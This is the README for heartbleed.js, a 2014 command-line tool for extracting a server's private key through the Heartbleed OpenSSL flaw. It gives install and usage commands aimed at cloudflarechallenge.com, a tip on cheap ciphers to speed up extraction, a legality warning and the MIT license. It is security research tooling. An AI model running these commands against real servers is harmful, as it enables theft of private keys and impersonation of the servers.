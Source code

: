# Heartbleed

Extracting server private key using [Heartbleed][0] OpenSSL vulnerability.

NOTE: Using this tool against other's servers is illegal in the most of the
countries.

## How to use

```bash
$ npm install -g heartbleed.js
$ heartbleed
Options:
  --host         [required]
  --port         [default: 443]
  --concurrency  [default: 1]

Missing required arguments: host

$ heartbleed -h cloudflarechallenge.com -c 1000 >> key.pem
```

Protip, use cheap ciphers:

```bash
heartbleed -h cloudflarechallenge.com -c 1000 --ciphers="AES128-SHA" >> key.pem
```

#### LICENSE

This software is licensed under the MIT License.

Copyright Fedor Indutny, 2014.

Permission is hereby granted, free of charge, to any person obtaining a
copy of this software and associated documentation files (the
"Software"), to deal in the Software without restriction, including
without limitation the rights to use, copy, modify, merge, publish,
distribute, sublicense, and/or sell copies of the Software, and to permit
persons to whom the Software is furnished to do so, subject to the
following conditions:

The above copyright notice and this permission notice shall be included
in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN
NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM,
DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR
OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE
USE OR OTHER DEALINGS IN THE SOFTWARE.

[0]: http://heartbleed.com/
